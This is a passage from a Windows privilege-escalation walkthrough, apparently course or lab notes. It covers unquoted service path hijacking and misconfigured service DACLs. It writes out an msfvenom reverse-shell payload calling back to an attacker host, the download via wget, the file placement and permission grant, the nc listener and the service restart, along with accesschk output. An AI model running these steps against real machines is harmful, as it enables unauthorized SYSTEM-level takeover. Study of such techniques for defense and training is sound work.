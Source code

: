 2. Generate an exe-service payload using msfvenom and serve it through a python webserver:

```text
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP address attack machine> LPORT=4446 -f exe-service -o rev-svc2.exe

# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

3. On the target machine, in powershell, pull it down:

```text
wget http://<IP address attack machine>:8000/rev-svc2.exe -O rev-svc2.exe
```

4. Move it to any of the locations where hijacking might occur. For example, move it to `C:\MyPrograms\Disk.exe`, 
and grant `Everyone` full permissions on the file to make sure it can be executed by the service:

```text
C:\> move C:\Users\unprivilegedusername\rev-svc2.exe C:\MyPrograms\Disk.exe

C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
        Successfully processed 1 files.
```

Start listener on attack machine:

```text
# nc -lvp 4446
```

Start the "updated" service:

```text
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```

### Misconfigured Service DACL

1. Download [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite 
to `C:\\tools`.
2. Check a namedservice DACL:

```text
C:\tools\AccessChk> accesschk64.exe -qlc namedservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```
